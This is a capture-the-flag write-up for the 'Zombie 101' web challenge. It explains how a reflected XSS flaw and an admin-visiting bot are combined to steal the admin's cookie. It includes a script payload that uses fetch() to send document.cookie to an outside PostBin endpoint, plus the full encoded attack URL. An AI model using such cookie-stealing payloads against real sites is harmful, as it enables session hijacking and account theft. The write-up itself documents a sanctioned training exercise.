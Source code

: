 # Zombie 101

### Category: Web
### Points: 100

In the challenge description we are given a link to the following website:

![website](zombie.png)

It's also noted in the description that this challenge is a classic "steal the admin's cookie" challenge.

Given two input boxes for this challenge, I immediately test for a XSS vulnerability
in the first box and unsurprisingly, I get a pop-up with:
```html
<script>alert(0)</script>
```
The second form allows you to pass a URL to the 'admin' bot, and it will visit that page. 
The source code is given to us and we can see the restrictions of the URL we pass in:

```python
const validateRequest = (req) => {
    const url = req.query.url
    if (!url) {
        return 'Hmmm, not seeing a URL. Please try again.'
    }

    let parsedURL
    try {
        parsedURL = new URL(url)
    }
    catch (e) {
        return 'Something is wrong with your url: ' + escape(e.message)
    }

    if (parsedURL.protocol !== 'http:' && parsedURL.protocol !== 'https:') {
        return 'Our admin is picky. Please provide a url with the http or https protocol.'
    }

    if (parsedURL.hostname !== req.hostname) {
        return `Please provide a url with a hostname of: ${escape(req.hostname)}  Hmmm, I guess that will restrict the submissions. TODO: Remove this restriction before the admin notices and we all get fired.`
    }

    return null
}
```

We can craft a simple exploit to steal the admin's cookie and redirect it to our own server:

```javascript
<script>
fetch('https://www.toptal.com/developers/postbin/xxxx-xxxx?cookie='+document.cookie,{headers: {'Accept': ''}})
   .then(response => response.text())
   .then(text => console.log(text))
</script>
```

After injecting this payload into the first input box, we get a URL to give to the zombie page for the admin to check out.

Submitting this URL:

```
# https://zombie-101-tlejfksioa-ul.a.run.app/visit?url=https%3A%2F%2Fzombie-101-tlejfksioa-ul.a.run.app%2Fzombie%3Fshow%3D%253Cscript%253Efetch%2528%2527https%253A%252F%252Fwww.toptal.com%252Fdevelopers%252Fpostbin%xxxx-xxxx%253Fcookie%253D%2B%2527%252Bdocument.cookie%252C%257Bheaders%253A%2B%257B%2527Accept%2527%253A%2B%2527%2527%257D%257D%2529%2B.then%2528response%2B%253D%253E%2Bresponse.text%2528%2529%2529%2B.then%2528text%2B%253D%253E%2Bconsole.log%2528text%2529%2529%253C%252Fscript%253E
```

Gives us the flag in the response from PostBin:

```
cookie: flag=wctf{c14551c-4dm1n-807-ch41-n1c3-j08-93261}
```
